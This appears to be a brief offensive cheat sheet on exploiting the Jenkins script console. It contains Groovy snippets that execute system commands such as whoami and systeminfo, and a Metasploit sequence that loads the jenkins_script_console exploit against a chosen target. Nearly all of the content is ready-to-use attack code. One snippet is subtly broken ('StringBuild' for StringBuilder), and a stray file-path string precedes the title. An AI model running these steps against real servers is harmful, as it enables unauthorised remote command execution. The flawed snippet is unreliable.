 # Jenkins

## Scripting

```groovy
println "<command>".execute().text;

println "whoami".execute().text;

println "systeminfo".execute().text;
```

```groovy
println "Command processor"
def sout = new StringBuild(), serr = new StringBuilder();
def args = ["cmd", "/c", "dir C:\\path\\to\\directory\\"];
def proc = new ProcessBuilder(args);
Process process = proc.start();
process.consumeProcessOutput(sout, serr);
process.waitForOrKill(2000);
println sout;
```

## Metasploit

```
msf > use exploit/multi/http/jenkins_script_console

set rhost <target_IP>

set rport <target_PORT>
```

---
## References

- [Double Pivoting | Metasploit and Manual Pivoting](https://www.hdysec.com/double-pivoting-both-metasploit-and-manual/)